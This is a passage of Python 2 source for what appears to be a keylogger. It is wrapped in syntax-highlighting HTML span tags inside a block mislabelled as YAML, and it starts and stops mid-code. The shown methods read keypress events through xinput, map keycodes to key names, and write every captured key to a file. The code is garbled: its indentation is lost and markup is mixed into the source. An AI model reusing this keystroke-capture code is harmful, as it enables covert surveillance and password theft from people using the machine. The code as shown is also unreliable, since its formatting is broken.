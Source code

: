 ```yaml
    <span style="color: #483d8b;">'Insert'</span>: <span style="color: #483d8b;">' (Insert) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Delete'</span>: <span style="color: #483d8b;">' (Del) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Print'</span>: <span style="color: #483d8b;">' (PrtScr) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Left'</span>: <span style="color: #483d8b;">' (Left) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Up'</span>: <span style="color: #483d8b;">' (Up) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Right'</span>: <span style="color: #483d8b;">' (Right) '</span><span style="color: #66cc66;">,</span>
    <span style="color: #483d8b;">'Down'</span>: <span style="color: #483d8b;">' (Down) '</span><span style="color: #66cc66;">,</span>
    <span style="color: black;">&#125;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> _log<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    logger <span style="color: #66cc66;">=</span> bash.<span style="color: black;">xinput</span><span style="color: black;">&#40;</span><span style="color: #483d8b;">&quot;test&quot;</span><span style="color: #66cc66;">,</span> <span style="color: #008000;">self</span>._keyboard<span style="color: #66cc66;">,</span> _iter<span style="color: #66cc66;">=</span><span style="color: #008000;">True</span><span style="color: black;">&#41;</span>
    keymap <span style="color: #66cc66;">=</span> <span style="color: #008000;">self</span>._get_keymap<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">try</span>:
    <span style="color: #ff7700;font-weight:bold;">for</span> line <span style="color: #ff7700;font-weight:bold;">in</span> logger:
    match <span style="color: #66cc66;">=</span> KEYPRESS_REGEX.<span style="color: black;">match</span><span style="color: black;">&#40;</span>line<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">if</span> match:
    keycode <span style="color: #66cc66;">=</span> match.<span style="color: black;">groups</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span><span style="color: black;">&#91;</span><span style="color: #ff4500;">0</span><span style="color: black;">&#93;</span>
    key <span style="color: #66cc66;">=</span> keymap<span style="color: black;">&#91;</span>keycode<span style="color: black;">&#93;</span>
    <span style="color: #008000;">self</span>._writen_file<span style="color: black;">&#40;</span>key<span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">except</span> <span style="color: #008000;">Exception</span>:
    <span style="color: #ff7700;font-weight:bold;">print</span> <span style="color: #483d8b;">&quot;Salved into %s&quot;</span> % <span style="color: #008000;">self</span>._filename
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> _writen_file<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: #66cc66;">,</span> key<span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>._file.<span style="color: black;">write</span><span style="color: black;">&#40;</span>key<span style="color: black;">&#41;</span>
    <span style="color: #008000;">self</span>._file.<span style="color: black;">flush</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    <span style="color: #dc143c;">os</span>.<span style="color: black;">fsync</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span>._file<span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> _sanitize<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: #66cc66;">,</span> key_char<span style="color: black;">&#41;</span>:
    <span style="color: #ff7700;font-weight:bold;">if</span> key_char <span style="color: #ff7700;font-weight:bold;">in</span> <span style="color: #008000;">self</span>._special_chars:
    <span style="color: #ff7700;font-weight:bold;">return</span> <span style="color: #008000;">self</span>._special_chars<span style="color: black;">&#91;</span>key_char<span style="color: black;">&#93;</span>
    <span style="color: #ff7700;font-weight:bold;">else</span>:
```